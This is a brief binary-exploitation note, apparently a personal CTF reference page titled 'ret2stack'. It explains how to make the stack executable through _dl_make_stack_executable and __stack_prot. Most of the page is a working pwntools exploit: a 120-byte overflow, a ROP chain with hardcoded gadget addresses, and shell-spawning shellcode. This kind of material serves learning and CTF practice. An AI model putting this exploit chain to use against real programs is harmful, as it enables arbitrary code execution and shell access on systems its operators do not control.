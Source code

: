 ```yaml
---
title: "ret2stack"
tags: [Binary Exploitation]
excerpt: "Making stack executable"
layout: single
classes: wide
--- 
```


## Making the stack executable
* Set value of `__stack_prot` to 7
* Call `_dl_make_stack_executable(__libc_stack_end, __stack_prot)`
* Jump to shellcode

## Example
```python
shellcode = asm(shellcraft.sh())

_dl_make_stack_executable = elf.symbols['_dl_make_stack_executable']
__stack_prot = elf.symbols['__stack_prot']
__libc_stack_end = elf.symbols['__libc_stack_end']

payload = 'A'*120
payload += p64(0x0000000000410ca3) # pop rsi ; ret
payload += p64(__stack_prot)
payload += p64(0x00000000004163f4) # pop rax ; ret
payload += p64(0x7)
payload += p64(0x000000000047ff91) # mov qword ptr [rsi], rax ; ret
payload += p64(0x0000000000400696) # pop rdi ; ret
payload += p64(__libc_stack_end)
payload += p64(_dl_make_stack_executable)
payload += p64(0x0000000000451974) # push rsp ; ret
payload += shellcode
```
